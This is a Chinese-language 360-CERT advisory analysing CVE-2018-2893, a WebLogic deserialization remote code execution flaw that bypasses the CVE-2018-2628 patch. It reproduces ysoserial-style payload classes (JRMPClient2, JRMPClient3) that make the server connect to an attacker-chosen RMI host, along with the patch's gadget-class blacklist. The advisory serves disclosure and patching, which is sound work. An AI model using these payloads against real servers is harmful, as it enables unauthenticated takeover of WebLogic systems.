 > 原文链接: https://www.anquanke.com//post/id/152164 


# CVE-2018-2893：Oracle WebLogic Server 远程代码执行漏洞分析预警


                                阅读量   
                                **276065**
                            
                        |
                        
                                                                                    



[![](https://p1.ssl.qhimg.com/t012028b7220ba9343c.png)](https://p1.ssl.qhimg.com/t012028b7220ba9343c.png)

报告编号： B6-2018-071801

报告来源： 360-CERT

报告作者： 360-CERT

更新日期： 2018-07-18



## 0x00 漏洞描述

7月18日，Oracle官方发布了季度补丁更新，其中修复了一个 Oracle WebLogic Server 远程代码执行漏洞CVE-2018-2893，此漏洞是对编号为 CVE-2018-2628 修复的绕过，攻击者同样可以在未身份验证的情况下对WebLogic进行攻击。

360-CERT 对此漏洞进行了相关分析，认为漏洞影响严重；目前相关PoC已经公开，建议相关用户尽快进行评估升级。



## 0x01 漏洞影响面

影响版本：
- WebLogic 10.3.6.0
- WebLogic 12.1.3.0
- WebLogic 12.2.1.2
- WebLogic 12.2.1.3


## 0x02 漏洞详情

### 漏洞概况

WebLogic Server使用T3协议在WebLogic Server和客户端间传输数据和通信，由于WebLogic的T3协议和Web协议使用相同的端口，导致在默认情况下，WebLogic Server T3协议通信和Web端具有相同的访问权限。

易受攻击的WebLogic服务允许未经身份验证的攻击者通过T3网络访问及破坏Oracle WebLogic Server。此漏洞的成功攻击可能导致攻击者接管Oracle WebLogic Server，造成远程代码执行。

### CVE-2018-2628

InboundMsgAbbrev 使用 resolveProxyClass 来处理 rmi 接口类型，但仅仅只是对java.rmi.registry.Registry 进行比较判断，可通过其他rmi接口构造绕过。

```
protected Class&lt;?&gt; resolveProxyClass(String[] interfaces) throws IOException, ClassNotFoundException `{`
        String[] arr$ = interfaces;
        int len$ = interfaces.length;

        for(int i$ = 0; i$ &lt; len$; ++i$) `{`
            String intf = arr$[i$];
            if(intf.equals("java.rmi.registry.Registry")) `{`
                throw new InvalidObjectException("Unauthorized proxy deserialization");
            `}`
        `}`

        return super.resolveProxyClass(interfaces);
    `}`
```

在公开 PoC 中，通过序列化RemoteObjectInvocationHandler，利用UnicastRef建立TCP连接获取远端的RMI registry，加载后会进行readObject解析，通过反序列化漏洞造成远程代码执行。

```
public class JRMPClient2 extends PayloadRunner implements ObjectPayload `{`

        public Activator getObject ( final String command ) throws Exception `{`

            String host;
            int port;
            int sep = command.indexOf(':');
            if ( sep &lt; 0 ) `{`
                port = new Random().nextInt(65535);
                host = command;
            `}`
            else `{`
                host = command.substring(0, sep);
                port = Integer.valueOf(command.substring(sep + 1));
            `}`
            ObjID id = new ObjID(new Random().nextInt()); // RMI registry
            TCPEndpoint te = new TCPEndpoint(host, port);
            UnicastRef ref = new UnicastRef(new LiveRef(id, te, false));
            RemoteObjectInvocationHandler obj = new RemoteObjectInvocationHandler(ref);
            Activator proxy = (Activator) Proxy.newProxyInstance(JRMPClient2.class.getClassLoader(), new Class[] `{`
                Activator.class
            `}`, obj);
            return proxy;
        `}`


        public static void main ( final String[] args ) throws Exception `{`
            Thread.currentThread().setContextClassLoader(JRMPClient2.class.getClassLoader());
            PayloadRunner.run(JRMPClient2.class, args);
        `}`
    `}`
```

补丁(p27395085_1036_Generic) ，在WeblogicFilterConfig.class 的黑名单中添加了sun.rmi.server.UnicastRef, 进行防御。

```
private static final String[] DEFAULT_BLACKLIST_CLASSES = new String[]`{`"org.codehaus.groovy.runtime.ConvertedClosure", "org.codehaus.groovy.runtime.ConversionHandler", "org.codehaus.groovy.runtime.MethodClosure", "org.springframework.transaction.support.AbstractPlatformTransactionManager", "sun.rmi.server.UnicastRef"`}`;
```

### 补丁绕过

WebLogic 内部类 weblogic.jms.common.StreamMessageImpl 可被序列化并且在反序列化时可以调用RMI的类，可以绕过WebLogic 的黑名单限制。

```
public class JRMPClient3 extends PayloadRunner implements ObjectPayload&lt;Registry&gt; `{`

        public Object streamMessageImpl(byte[] object) `{`
            StreamMessageImpl streamMessage = new StreamMessageImpl();
            streamMessage.setDataBuffer(object, object.length);
            return streamMessage;
        `}`

        public Object getObject (final String command ) throws Exception `{`
            String host;
            int port;
            int sep = command.indexOf(':');
            if (sep &lt; 0) `{`
                port = new Random().nextInt(65535);
                host = command;
            `}`
            else `{`
                host = command.substring(0, sep);
                port = Integer.valueOf(command.substring(sep + 1));
            `}`
            ObjID objID = new ObjID(new Random().nextInt()); // RMI registry
            TCPEndpoint tcpEndpoint = new TCPEndpoint(host, port);
            UnicastRef unicastRef = new UnicastRef(new LiveRef(objID, tcpEndpoint, false));
            RemoteObjectInvocationHandler remoteObjectInvocationHandler = new RemoteObjectInvocationHandler(unicastRef);
            Object object = Proxy.newProxyInstance(JRMPClient.class.getClassLoader(), new Class[] `{` Registry.class `}`, remoteObjectInvocationHandler);
            return streamMessageImpl(Serializer.serialize(object));
        `}`


        public static void main ( final String[] args ) throws Exception `{`
            Thread.currentThread().setContextClassLoader(JRMPClient3.class.getClassLoader());
            PayloadRunner.run(JRMPClient3.class, args);
        `}`
    `}`
```



## 0x03 时间线

2018-04-18 Oracle 发布季度安全更新，包含CVE-2018-2628补丁

2018-04-18 360-CERT发布 CVE-2018-2628：WebLogic 远程代码执行漏洞分析预警

2018-07-18 Oracle官方发布了季度补丁更新，包含CVE-2018-2893补丁

2018-07-18 360-CERT发布 CVE-2018-2893：WebLogic 远程代码执行漏洞分析预警



## 0x04 参考链接
1. [Oracle Critical Patch Update Advisory – July 2018](http://www.oracle.com/technetwork/security-advisory/cpujul2018-4258247.html)
1. [知道创宇：Weblogic 反序列化漏洞(CVE-2018-2628)漫谈](http://blog.knownsec.com/2018/04/weblogic-%E5%8F%8D%E5%BA%8F%E5%88%97%E5%8C%96%E6%BC%8F%E6%B4%9Ecve-2018-2628%E6%BC%AB%E8%B0%88/)
1. [Oracle WebLogic CVE-2018-2628 patch的绕过](https://github.com/tdy218/ysoserial-cve-2018-2628)
1. [ADLab原创漏洞】WebLogic反序列化漏洞CVE-2018-2893预警](https://mp.weixin.qq.com/s/ca6iox11dV-WL2-37KqTfA)